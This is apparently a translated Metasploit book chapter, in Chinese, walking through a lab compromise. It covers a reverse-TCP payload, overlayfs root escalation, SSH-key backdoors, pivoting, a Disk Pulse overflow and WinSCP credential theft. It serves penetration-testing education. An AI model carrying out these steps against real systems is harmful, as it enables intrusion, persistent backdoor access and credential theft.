为了访问目标，我们需要将此漏洞利用复制到 Metasploit 中。然而，直接将外部漏洞利用复制到 Metasploit 的漏洞利用目录是不鼓励的，也是不良实践，因为您将在每次更新时丢失模块。最好将外部模块保存在一个通用目录中，而不是 Metasploit 的`modules`目录。然而，保持模块的最佳方法是在系统的其他地方创建类似的目录结构，并使用`loadpath`命令加载它。让我们将找到的模块复制到某个目录：

让我们创建目录结构，如下截图所示：

我们可以看到，我们在`MyModules`文件夹中创建了一个 Metasploit 友好的结构，即`modules/exploits/nipun`，并将漏洞也移动到了该目录中。让我们按照以下步骤将此结构加载到 Metasploit 中：

我们已成功将漏洞加载到 Metasploit 中。让我们使用模块，如下面的截图所示：

该模块要求我们设置远程主机的地址、远程端口和 PhpCollab 应用程序的路径。由于路径（`TARGETURI`）和远程端口（`RPORT`）已经设置好了，让我们将`RHOST`设置为目标的 IP 地址，并发出`exploit`命令：



哇！我们已经访问了系统。让我们使用一些基本的后期利用命令并分析输出，如下面的截图所示：

正如我们在前面的截图中所看到的，运行`sysinfo`命令可以获取系统的信息，如计算机名称、操作系统、架构（64 位版本）和 Meterpreter 版本（基于 PHP 的 Meterpreter）。让我们使用`shell`命令在受损主机上进入系统 shell，如下面的截图所示：



我们可以看到，一旦我们进入系统 shell，运行诸如`id`之类的命令会提供我们当前用户正在使用的输入，即`www-data`，这意味着要完全控制该系统，我们需要 root 权限。此外，发出`lsb_release -a`命令会输出具有确切版本和代号的操作系统版本。让我们记下它，因为在获取对系统的 root 访问权限时会需要。然而，在我们继续进行 root 操作之前，让我们从系统中获取一些基本信息，例如使用`getpid`命令获取当前进程 ID，使用`getuid`命令获取当前用户 ID，用于唯一用户标识符的`uuid`和用于受损机器的`machine_id`。让我们运行我们刚刚讨论的所有命令并分析输出：

我们得到的信息相当直接。我们有当前进程的 ID，我们的 Meterpreter 所在的用户 ID，UUID 和机器 ID。然而，这里需要注意的一点是，我们的访问是基于 PHP Meterpreter 的，而 PHP Meterpreter 的限制是我们无法运行特权命令，这些命令可以很容易地由更具体的二进制 Meterpreter shells（如**reverse TCP**）提供。首先，让我们升级到更具体的 shell，以获得更好的目标访问级别。我们将使用`msfvenom`命令创建一个恶意载荷；然后我们将上传到目标系统并执行它。让我们开始吧：

由于我们的受损主机正在运行 64 位架构，我们将使用 Meterpreter 的 64 位版本，如前面的屏幕截图所示。MSFvenom 根据我们的要求生成强大的有效载荷。我们使用`-p`开关指定有效载荷，它就是`linux/x64/meterpreter/reverse_tcp`。这个有效载荷是 64 位 Linux 兼容的 Meterpreter 有效载荷，一旦在受损系统上执行，它将连接回我们的监听器，并为我们提供对机器的访问权限。由于有效载荷必须连接回我们，它应该知道要连接到哪里。出于这个原因，我们指定了`LHOST`和`LPORT`选项，其中`LHOST`作为我们监听器运行的 IP 地址，`LPORT`指定监听器的端口。我们将在 Linux 机器上使用有效载荷。因此，我们指定格式（`-f`）为 elf，这是 Linux 操作系统的默认可执行二进制格式。`-b`选项用于指定可能在通信中遇到问题并可能破坏 shellcode 的不良字符。有关不良字符及其规避的更多信息将在接下来的章节中介绍。最后，我们将有效载荷写入`reverse_connect.elf`文件。

接下来，由于我们已经在机器上拥有了一个 PHP Meterpreter 访问权限，让我们使用`upload`命令上传新创建的有效载荷，如前面的屏幕截图所示。我们可以通过发出`pwd`命令来验证上传的当前路径，这表示我们正在使用的当前目录。一旦执行了上传的有效载荷，它将连接回我们的系统。然而，我们在接收端也需要一些东西来处理连接。让我们运行一个处理程序来处理传入的连接，如下面的屏幕截图所示：

我们可以看到，我们使用`background`命令将 PHP Meterpreter 会话推送到后台。让我们使用`exploit/multi/handler`模块，并设置与`reverse_connect.elf`中使用的相同的有效载荷、LHOST 和 LPORT，然后使用`exploit`命令运行该模块。

使用`-j`命令利用后台模式启动处理程序作为作业，并可以处理多个连接，全部在后台进行。

我们已成功设置了处理程序。接下来，我们只需要在目标上执行有效载荷文件，如下面的屏幕截图所示：

我们可以看到，我们刚刚使用 shell 命令放置了一个 shell。我们使用`pwd`命令检查了目标上的当前工作目录。接下来，我们给有效载荷文件赋予了可执行权限，以便我们可以执行它，最后，我们使用`&`标识符在后台运行了`reverse_connect.elf`可执行文件。前面的屏幕截图显示，我们一旦运行可执行文件，就会打开一个新的 Meterpreter 会话到目标系统。使用`sessions -i`命令，我们可以看到我们现在在目标上有两个 Meterpreter：

然而，x64/Linux Meterpreter 显然比 PHP Meterpreter 更好，我们将继续通过这个 Meterpreter 与系统交互，除非我们获得了更高权限的 Meterpreter。但是，如果出现意外情况，我们可以切换访问到 PHP Meterpreter 并重新运行这个 payload，就像我们刚刚做的那样。这里的一个重要点是，无论我们在目标上获得了更好的访问级别，我们仍然是低权限用户，我们希望改变这一点。Metasploit 框架包含一个名为`local_exploit_suggester`的优秀模块，它有助于提升权限。它具有内置机制来检查各种本地提权利用，并建议在目标上使用最佳的利用。我们可以加载这个模块，如下面的屏幕截图所示：



我们使用`use`命令加载了模块，后面跟着模块的绝对路径，即`post/multi/recon/local_exploit_suggester`。由于我们想在目标上使用这个 exploit，我们自然会选择更好的 Meterpreter 来路由我们的检查。因此，我们将`SESSION`设置为`2`，以通过`SESSION 2`路由我们的检查，这是 x64/Linux Meterpreter 的标识符。让我们运行这个模块并分析输出：

太神奇了！我们可以看到`suggester`模块表明`exploit/linux`目录中的`overlayfs_priv_esc`本地利用模块可以在目标上用于获取 root 访问权限。但是，我把它留给你们来完成。让我们手动在目标上下载本地 root exploit，编译并执行它以获取目标系统的 root 访问权限。我们可以从以下网址下载 exploit：[`www.exploit-db.com/exploits/37292`](https://www.exploit-db.com/exploits/37292)。但是，让我们在下一节中收集一些关于这个 exploit 的细节。

# 使用本地 root exploit 提升权限

`overlayfs`提权漏洞允许本地用户利用允许在任意挂载的命名空间中使用`overlayfs`的配置来获取 root 权限。这个漏洞存在的原因是`overlayfs`的实现没有正确检查在上层文件系统目录中创建文件的权限。

有关漏洞的更多信息可以在这里找到：[`www.cvedetails.com/cve/cve-2015-1328`](https://www.cvedetails.com/cve/cve-2015-1328)。

让我们进入一个 shell，并从[`www.exploit-db.com/`](https://www.exploit-db.com/)下载原始 exploit 到目标上：

让我们将漏洞从`37292`重命名为`37292.c`，并使用`gcc`编译它，这将生成一个可执行文件，如下面的屏幕截图所示：

我们可以看到我们成功编译了 exploit，让我们运行它：

太棒了！正如我们所看到的，通过运行 exploit，我们已经获得了对 root shell 的访问；这标志着对这个系统的完全妥协。让我们运行一些基本命令并确认我们的身份：

记住，我们在后台运行了一个 exploit handler？让我们运行相同的`reverse_connect.elf`文件：

又打开了一个 Meterpreter 会话！让我们看看这个 Meterpreter 与其他两个有何不同：

我们可以看到我们从目标系统获得了第三个 Meterpreter。但是，UID，也就是用户 ID，是`0`，表示 root 用户。因此，这个 Meterpreter 正在以 root 权限运行，并且可以为我们提供对整个系统的无限制访问。让我们使用`session -i`命令与会话标识符交互，这种情况下是`3`：

（图片）

我们可以通过`getuid`命令确认 root 身份，如前面的截图所示。我们现在拥有了系统的完全权限，接下来呢？

# 使用 Metasploit 保持访问

保持对目标系统的访问是一个理想的功能，特别是在执法机构或红队测试目标上部署的防御时。我们可以通过 Metasploit 在 Linux 服务器上使用`post/linux/manage`目录中的`sshkey_persistence`模块实现持久性。该模块添加了我们的 SSH 密钥或创建一个新的密钥，并将其添加到目标服务器上存在的所有用户。因此，下次我们想登录到服务器时，它将不会要求我们输入密码，而只会使用密钥让我们进入。让我们看看我们如何实现这一点：

（图片）

我们只需要使用`set SESSION`命令设置会话标识符，然后使用具有最高特权级别的会话。因此，我们将使用`3`作为`SESSION`标识符，并直接运行模块，如下所示：

（图片）

我们可以看到该模块创建了一个新的 SSH 密钥，然后将其添加到目标系统上的两个用户，即`root`和`claire`。我们可以通过使用 SSH 连接到目标，使用`root`或用户`claire`，或两者，来验证我们的后门访问，如下所示：

（图片）

太棒了！我们可以看到我们通过使用新创建的 SSH 密钥登录到目标系统，使用了`-i`选项，如前面的屏幕所示。让我们看看我们是否也可以作为用户`claire`登录：

（图片）

是的！我们可以使用两个后门用户登录。

大多数服务器不允许 root 登录。因此，您可以编辑`sshd config`文件，将 root 登录更改为`yes`，并在目标上重新启动 SSH 服务。

尝试只给一个用户后门，比如 root，因为大多数人不会通过 root 登录，因为默认配置禁止了这样做。

# 后渗透和转向

无论我们已经攻陷了什么操作系统，Metasploit 都提供了数十个后渗透侦察模块，可以从受损的机器中收集大量数据。让我们使用其中一个模块：

（图片）

运行`enum_configs`后渗透模块，我们可以看到我们已经收集了目标上存在的所有配置文件。这些配置帮助我们发现密码、密码模式、关于正在运行的服务的信息，以及更多其他信息。另一个很棒的模块是`enum_system`，它收集了与操作系统相关的信息、用户账户、正在运行的服务、正在运行的定时作业、磁盘信息、日志文件等等，如下面的截图所示：

（图片）

在目标上收集了大量详细信息后，是不是该开始报告了呢？还不是。一个优秀的渗透测试人员会获取系统访问权限，获得最高级别的访问权限，并提出他的分析。然而，一个优秀的渗透测试人员会做同样的事情，但永远不会停留在一个单一的系统上。他们会尽力进入内部网络，并获得更多对网络的访问权限（如果允许的话）。让我们使用一些命令来帮助我们转向内部网络。一个这样的例子是`arp`命令，它列出内部网络中的所有已连接系统：

（图片）

我们可以看到一个单独的网络存在，它在`192.168.116.0`范围内。让我们发出`ifconfig`命令，看看受损主机上是否连接了另一个网络适配器：

（图片）

是的！我们做对了-还有另一个网络适配器（`Interface 3`）连接到一个单独的网络范围。然而，当我们尝试从我们的地址范围对这个网络进行 ping 或扫描时，我们无法做到，因为从我们的 IP 地址无法访问该网络，这意味着我们需要一种可以通过受损主机将数据从我们的系统转发到目标（否则无法访问）范围的机制。我们称这种安排为枢纽。因此，我们将通过我们获得的 Meterpreter 在系统上添加到目标范围的路由，并且范围内的目标系统将把我们的受损主机视为源发起者。让我们通过 Meterpreter 添加到否则无法访问的范围的路由，如下截图所示：



使用`post/multi/manage`目录下的`autoroute`后渗透模块，我们需要在`SUBNET`参数中指定目标范围，并将`SESSION`设置为 Meterpreter 的会话标识符，通过该会话数据将被隧道传输。通过运行该模块，我们可以看到已成功添加了到目标范围的路由。让我们运行 Metasploit 的 TCP 端口扫描模块，并分析我们是否可以扫描目标范围内的主机：

我们只需在找到的目标上运行`portscanner`模块，即使用`arp`命令找到的`192.168.116.133`，使用 10 个线程扫描端口 1-10000，如前面的截图所示：

成功！我们可以看到端口`80`是开放的。然而，我们只能通过 Meterpreter 进行访问。我们需要一种机制，可以通过 Web 浏览器运行一些外部工具来浏览端口`80`，以了解更多关于运行在端口`80`上的目标应用程序。Metasploit 提供了一个内置的 socks 代理模块，我们可以运行它，并将流量从我们的外部应用程序路由到目标`192.168.116.133`系统。让我们按照以下方式使用这个模块：

我们只需要运行位于`辅助/服务器`路径下的`socks4a`模块。它将在本地端口`1080`上设置一个网关，将流量路由到目标系统。在`127.0.0.1:1080`上代理将通过受损主机转发我们的浏览器流量。然而，对于外部工具，我们需要使用`proxychains`并通过将端口设置为`1080`来配置它。`proxychains`的端口可以使用`/etc/proxychains.conf`文件进行配置：



接下来的事情就是在浏览器中将该地址设置为代理，或者在所有第三方命令行应用程序（如 Nmap 和 Metasploit）中使用`proxychains`作为前缀。我们可以根据以下截图配置浏览器：

确保从“无代理”部分中删除`localhost`和`127.0.0.1`。设置代理后，我们只需在端口`80`上浏览 IP 地址，并检查是否可以到达端口`80`：

不错！我们可以看到应用程序，它说它是 Disk Pulse Enterprise，软件版本 9.9.16，这是一个已知的有漏洞的版本。在 Metasploit 中，我们有很多关于 Disk Pulse 的模块。让我们使用其中一个，如下所示：



是的！我是这个漏洞利用模块的原始作者之一。在利用之前，让我们了解一下这个漏洞。

# 漏洞分析-基于 SEH 的缓冲区溢出

漏洞在 Disk Pulse 9.9.16 的 Web 服务器组件解析`GET`请求时存在。攻击者可以构造恶意的`GET`请求并导致 SEH 帧被覆盖，这将使攻击者完全访问程序的流程。由于 Disk Pulse 以管理员权限运行，攻击者将获得系统的完全访问权限。

让我们利用漏洞并利用系统，如下所示：



只需设置`RHOST`和`LPORT`（将允许我们访问目标成功利用的网关端口），我们就可以准备利用系统。我们可以看到，一旦我们运行了利用程序，我们就打开了 Meterpreter 会话`5`，这标志着成功入侵了目标。我们可以使用`sessions -i`命令验证我们的会话列表，如下所示：



让我们与会话`5`进行交互，并检查我们拥有的访问级别：

发出`getuid`命令，我们可以看到我们已经拥有 Windows 操作系统上的最高特权`NT AUTHORITY SYSTEM`。

有关此漏洞的更多信息，请参阅：[`cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-13696`](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-13696)。

# 通过入侵密码管理器来利用人为错误

拥有最高级别的特权，让我们进行一些后期利用，如下所示：

在目标系统上查找安装的各种应用程序总是很好，因为其中一些应用程序可能已经将凭据保存到网络的其他部分。枚举已安装应用程序的列表，我们可以看到我们有 WinSCP 5.7，这是一个流行的 SSH 和 SFTP 客户端。Metasploit 可以从 WinSCP 软件中收集保存的凭据。让我们运行`post/windows/gather/credentials/winscp`模块，并检查我们是否在 WinSCP 软件中有一些保存的凭据：



太棒了！我们在网络中又救回了另一个主机的凭据，即`192.168.116.134`。好消息是保存的凭据是 root 帐户的，所以如果我们访问这个系统，将会拥有最高级别的特权。让我们使用`ssh_login`模块中找到的凭据，如下所示： 



由于我们已经知道用户名和密码，让我们为模块设置这些选项，以及目标 IP 地址，如下截图所示：



太棒了！这是一个成功的登录，Metasploit 已经自动在其上获得了系统 shell。但是，我们总是可以使用 Meterpreter shell 升级到更好的访问质量。让我们使用`msfvenom`创建另一个后门，如下所示：

后门将在端口`1337`上监听连接。然而，我们如何将这个后门传输到被入侵的主机上呢？记住，我们运行了 socks 代理辅助模块并对配置进行了更改？在大多数工具的后缀中使用`proxychains`关键字将强制工具通过`proxychains`进行路由。因此，为了传输这样一个文件，我们可以使用如下截图所示的`scp`。

我们可以看到我们已成功传输了文件。运行匹配处理程序，类似于我们为第一个系统所做的，我们将从目标处获得连接。让我们总览一下我们在这个练习中获得的所有目标和会话：

在这个实践的真实世界示例中，我们通过本地漏洞、人为错误和利用以最高特权运行的软件，成功入侵了三个系统，并获得了最高可能的特权。

# 重新审视案例研究

为了设置测试环境，我们将需要多个操作系统，主要是两个不同的主机专用网络。此外，我们还需要以下组件：

| **组件名称** | **类型** | **使用的版本** | **网络详细信息** | **网络类型** |
| --- | --- | --- | --- | --- |
| Kali Linux VM Image | 操作系统 | Kali Rolling（2017.3）x64 | `192.168.174.128`（Vmnet8） | 仅主机 |
| Ubuntu 14.04 LTS | 操作系统 | 14.04（trusty） | `192.168.174.132`（Vmnet8）192.168.116.129（Vmnet6） | 仅主机仅主机 |
| Windows 7 | 操作系统 | 专业版 | 192.168.116.133（Vmnet6） | 仅主机 |
| Ubuntu 16.04 LTS | 操作系统 | 16.04.3 LTS（xenial） | 192.168.116.134（Vmnet6） | 仅主机 |
| PhpCollab | Web 应用程序 | 2.5.1 |  |  |
| Disk Pulse | 企业磁盘管理软件 | 9.9.16 |  |  |
| WinSCP | SSH 和 SFTP | 5.7 |  |  |

# 修改方法

在这个练习中，我们执行了以下关键步骤：

1.  我们首先对目标 IP 地址`192.168.174.132`进行了 Nmap 扫描。

1.  Nmap 扫描显示`192.168.174.132`的端口`80`是开放的。

1.  接下来，我们对运行在端口`80`上的应用程序进行了指纹识别，发现正在运行 Apache 2.4.7。

1.  我们尝试浏览 HTTP 端口。但是，我们什么也没找到。

1.  我们运行了`dir_scanner`模块，在 Apache 服务器上执行基于字典的检查，并找到了 PhpCollab 应用程序目录。

1.  我们使用`searchsploit`找到了 PhpCollab 的一个利用模块，并不得不将第三方利用程序导入 Metasploit。

1.  接下来，我们利用应用程序并获得了对目标系统的有限用户访问权限。

1.  为了改进我们的访问机制，我们上传了一个带后门的可执行文件，并实现了对目标更高级别的访问。

1.  为了获得 root 访问权限，我们运行了`suggester`模块的漏洞利用程序，并发现 overlayfs 特权升级漏洞利用程序将帮助我们实现对目标的 root 访问权限。

1.  我们从[`exploit-db.com/`](https://exploit-db.com/)下载了 overlayfs 漏洞利用程序，编译并运行它以获得对目标的 root 访问权限。

1.  使用相同的先前生成的后门，我们打开了另一个 Meterpreter shell，但这次是以 root 权限。



1.  我们使用 Metasploit 中的`sshkey_persistence`模块向系统添加了持久性。

1.  在目标上运行`arp`命令，我们发现与主机有一个单独的网络连接，该主机位于`192.168.116.0/24`的目标范围内。

1.  我们使用 autoroute 脚本向该网络添加了一条路由。

1.  我们使用 Metasploit 中的 TCP 端口扫描模块从`arp`命令中扫描系统。

1.  我们发现系统的端口`80`是开放的。

1.  由于我们只能通过 Meterpreter 访问目标网络，我们使用 Metasploit 中的`socks4a`模块，使其他工具通过 Meterpreter 连接到目标。

1.  运行 socks 代理，我们配置浏览器使用端口`1080`上的`socks4a`代理。

1.  我们通过浏览器打开了`192.168.116.133`，发现它正在运行 Disk Pulse 9.9.16 web 服务器服务。

1.  我们在 Metasploit 中搜索 Disk Pulse，并发现它容易受到基于 SEH 的缓冲区溢出漏洞的影响。

1.  我们利用了漏洞，并获得了对目标的最高特权访问，因为该软件以 SYSTEM 级别特权运行。

1.  我们列举了已安装应用程序的列表，并发现系统上安装了 WinSCP 5.7。

1.  我们发现 Metasploit 包含一个内置模块，用于从 WinSCP 中获取保存的凭据。

1.  我们从 WinSCP 收集了 root 凭据，并使用`ssh_login`模块在目标上获得了 root shell。

1.  我们上传了另一个后门，以在目标上获得具有 root 权限的 Meterpreter shell。

# 总结和练习

在本章中，我们介绍了渗透测试涉及的各个阶段。我们还看到了如何设置 Metasploit 并在网络上进行渗透测试。我们还回顾了 Metasploit 的基本功能。我们还研究了在 Metasploit 中使用数据库的好处以及使用 Metasploit 进行内部系统的枢纽转移。

完成本章后，我们掌握了以下内容：

+   了解渗透测试的各个阶段

+   使用 Metasploit 中的数据库的好处

+   Metasploit 框架的基础知识

+   了解利用和辅助模块的工作原理

+   了解如何转向内部网络并配置路由

+   理解使用 Metasploit 进行渗透测试的方法

本章的主要目标是让您熟悉渗透测试阶段和 Metasploit 的基础知识。本章完全侧重于为接下来的章节做准备。

为了充分利用本章所学的知识，您应该进行以下练习：

+   参考 PTES 标准，深入了解面向业务的渗透测试的所有阶段

+   在 Metasploit 框架中使用 overlayfs 特权提升模块

+   找到至少三种不属于 Metasploit 框架的不同利用，并将它们加载到 Metasploit 中

+   在 Windows 7 系统上执行后渗透，并识别五个最佳的后渗透模块

+   通过找到正确的持久性机制在 Windows 7 上实现持久性，并在此过程中检查是否有任何杀毒软件引发警报

+   识别 Windows、Linux 和 Mac 操作系统的至少三种持久性方法

在下一章中，我们将深入探讨脚本编写和构建 Metasploit 模块的广阔世界。我们将学习如何使用 Metasploit 构建尖端模块，并了解一些最流行的扫描和认证测试脚本的工作原理。
